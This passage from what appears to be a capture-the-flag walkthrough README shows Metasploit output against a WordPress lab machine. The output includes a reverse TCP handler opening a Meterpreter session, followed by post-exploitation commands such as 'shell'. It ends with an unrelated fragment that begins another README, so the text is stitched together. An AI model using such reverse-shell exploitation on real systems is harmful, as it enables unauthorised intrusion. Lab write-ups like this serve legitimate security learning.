 ### Example Output
After running the exploit, you should see output indicating success, such as:
```
[*] Started reverse TCP handler on 192.168.16.1:4444
[*] Sending stage (38288 bytes) to 192.168.16.34
[*] Meterpreter session 1 opened (192.168.16.1:4444 -> 192.168.16.34:55678) at 2024-05-23 13:00:00 +0000

meterpreter>
```

### Post-Exploitation
Once you have a Meterpreter session, you can perform various post-exploitation tasks:
```bash
meterpreter> sysinfo
meterpreter> getuid
meterpreter> shell
```
![iamge6](https://github.com/kanhaiyasingh12/HARRY-POTTER-ARAGOG-1.0.2-/blob/main/Screenshot%202024-05-23%20063124.png)

## Additional Resources
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [Metasploit Module Library](https://www.rapid7.com/db/modules/)
- [WordPress Security](https://wordpress.org/support/article/hardening-wordpress/)

## Conclusion
Using Metasploit to scan for and exploit vulnerabilities in a WordPress site is a powerful way to identify and mitigate security risks. This guide walks you through the process of scanning for vulnerabilities and executing an exploit, enabling you to enhance the security of your WordPress site.

---

This README file provides a detailed guide on how to use Metasploit to scan for vulnerabilities in a WordPress site and run an exploit based on the discovered vulnerabilities. 
To create a README file detailing the discovery of the first Horcrux in the `hagrid98` directory within the home directory, you can follow this structure:

---